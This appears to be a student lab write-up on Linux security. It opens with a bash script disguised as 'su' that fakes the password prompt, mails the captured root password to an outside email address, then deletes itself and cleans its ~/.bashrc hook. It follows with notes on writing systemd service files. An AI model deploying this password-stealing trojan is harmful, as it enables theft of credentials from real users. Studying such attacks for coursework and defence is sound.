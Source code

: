 ### Implementation
Simple script named after `su` to hack mum's computer:

```shell
$ cat su
#!/bin/bash

mailto=bomingzh@sjtu.edu.cn

getPasswd() {
    echo -e "Password: \c"
    read -s password
    echo
    mail -s 'root password of mum' $mailto <<< $password
    echo "su: Authentication failure"
}

clean() {
    echo $1
    rm -- "$0"
    head -n -1 ~/.bashrc > ~/.bashrc.tmp
    mv ~/.bashrc.tmp ~/.bashrc
    exit 1
}

echo "bad su" # for debug purpose
getPasswd
clean
```

Result:

[![Dq6sN4.jpg](https://s3.ax1x.com/2020/12/04/Dq6sN4.jpg)](https://imgchr.com/i/Dq6sN4)

## Ex2.2 Automatic Setup
### Theoretical Background
**What is `systemd`, where are service files stored and how to write one?**
- `systemd` (system-daemon) is a service manager for Linux systems. When run as the first process (PID=1), it initialize the system by bringing up and maintaining userspace services.
- Service files are usually stored in `/etc/systemd/system/`, `/lib/systemd/system/` and so on. You may use `sudo find / -name *.service | grep "name"` to locate the systemd service file related with name.
- In order to write a service file, it should contains three sections: [^1]
    - `[Unit]` that describes the unit's general behavior and dependency.
        - `Description=` brief info about this service
        - `After=` services needed to be started before this (seperated by space)
        - `Before=` services needed to be started after this
        - `Requires=` hard dependencies
        - `Wants=` soft dependencies
    - `[Service]` that describes the unit's specific behavior when it is started, stopped, restarted or reloaded.
        - `EnvironmentFile=` location of the parameter configuration file
        - `ExecStart=` / `ExecStartPre=` / `ExecStartPost=` the command to be executed when / before / after a service starts
        -  `Type=` the way to start the process, one out of `simple` / `forking` / `oneshot` / `dbus` / `notify` 
    - `[Install]` that describes options related with the service installation.
        - `WantedBy=` targers depend on this


[^1]: Egidio Docile, “How to create systemd service unit in Linux - LinuxConfig.org,” Linuxconfig.org, Nov. 28, 2018. https://linuxconfig.org/how-to-create-systemd-service-unit-in-linux (accessed Dec. 03, 2020).
[^2]: "5 Best Tripwire Alternatives in 2020 - DNSstuff," Software Reviews, Opinions, and Tips - DNSstuff, Jun. 02, 2020. https://www.dnsstuff.com/tripwire-alternatives (accessed Dec. 03, 2020).
[^3]: "How to Use Cron to Schedule Tasks" https://linuxiac.com/how-to-use-cron-to-schedule-tasks-the-complete-beginners-guide/ (accessed Dec. 06, 2020).